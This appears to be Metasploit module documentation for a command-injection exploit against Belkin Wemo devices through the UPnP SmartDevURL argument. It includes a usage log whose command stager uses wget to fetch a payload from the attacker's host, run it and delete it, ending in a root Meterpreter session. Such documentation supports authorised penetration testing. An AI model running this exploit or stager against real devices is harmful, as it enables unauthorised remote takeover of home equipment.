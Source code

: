 ## Intro

This module exploits a command injection in the Belkin Wemo UPnP API via
the `SmartDevURL` argument to the `SetSmartDevInfo` action.

This module has been tested on a Wemo-enabled Crock-Pot, but other Wemo
devices are known to be affected, albeit on a different `RPORT` (49153).

## Setup

You may buy the device on Amazon at <https://www.amazon.com/dp/B00IPEO02C/>.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**RPORT**

Set this to the Wemo device's UPnP port. In our testing, this was 49152
for Crock-Pot and 49153 for other devices.

## Usage

```
msf5 exploit(linux/upnp/belkin_wemo_upnp_exec) > run

[*] Started reverse TCP handler on 10.22.22.4:4444
[+] Wemo-enabled device detected
[*] Found firmware version: 2.00.6461
[+] Firmware version 2.00.6461 < 2.00.8643
[*] 10.22.22.1:49152 - The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/CKgRyLqQZtBY6
[*] Local IP: http://[redacted]:8080/CKgRyLqQZtBY6
[*] Generated command stager: ["wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6", "chmod +x /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P"]
[*] Regenerated command stager: cp /bin/sh /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6;/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P
[*] Client 10.22.22.1 (Wget) requested /CKgRyLqQZtBY6
[*] Sending payload to 10.22.22.1 (Wget)
[*] Transmitting intermediate stager...(164 bytes)
[*] Sending stage (1252312 bytes) to 10.22.22.1
[*] Meterpreter session 1 opened (10.22.22.4:4444 -> 10.22.22.1:4607) at 2019-02-12 14:37:37 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.22.22.1
OS           :  (Linux 2.6.21)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter >
```
